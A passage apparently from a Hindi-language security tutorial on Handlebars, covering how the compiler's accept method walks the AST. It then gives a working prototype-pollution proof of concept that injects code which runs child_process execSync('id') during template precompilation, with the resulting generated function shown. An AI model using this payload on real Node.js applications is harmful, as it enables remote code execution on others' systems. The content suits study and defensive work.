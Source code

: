 ```javascript
for (var i = 0; i < bodyLength; i++) {
this.accept(body[i]);
}

this.options.blockParams.shift();

this.isSimple = bodyLength === 1;
this.blockParams = program.blockParams ? program.blockParams.length : 0;

return this;
}
```
कंपाइलर, AST ऑब्जेक्ट (वास्तव में एक स्ट्रिंग) को `accept` मेथड को भेजता है।\
और `accept` कंपाइलर के `this[node.type]` को कॉल करता है।\
फिर AST के body एट्रिब्यूट को लेकर फंक्शन का निर्माण करता है।
```javascript
const Handlebars = require('handlebars');

Object.prototype.type = 'Program';
Object.prototype.body = [{
"type": "MustacheStatement",
"path": 0,
"params": [{
"type": "NumberLiteral",
"value": "console.log(process.mainModule.require('child_process').execSync('id').toString())"
}],
"loc": {
"start": 0,
"end": 0
}
}];


const source = `Hello {{ msg }}`;
const template = Handlebars.precompile(source);

console.log(eval('(' + template + ')')['main'].toString());

/*
function (container, depth0, helpers, partials, data) {
var stack1, lookupProperty = container.lookupProperty || function (parent, propertyName) {
if (Object.prototype.hasOwnProperty.call(parent, propertyName)) {
return parent[propertyName];
}
return undefined
};

return ((stack1 = (lookupProperty(helpers, "undefined") || (depth0 && lookupProperty(depth0, "undefined")) || container.hooks.helperMissing).call(depth0 != null ? depth0 : (container.nullContext || {}), console.log(process.mainModule.require('child_process').execSync('id').toString()), {
"name": "undefined",
"hash": {},
"data": data,
"loc": {
"start": 0,
"end": 0
}
})) != null ? stack1 : "");
}
*/
```
**उदाहरण**
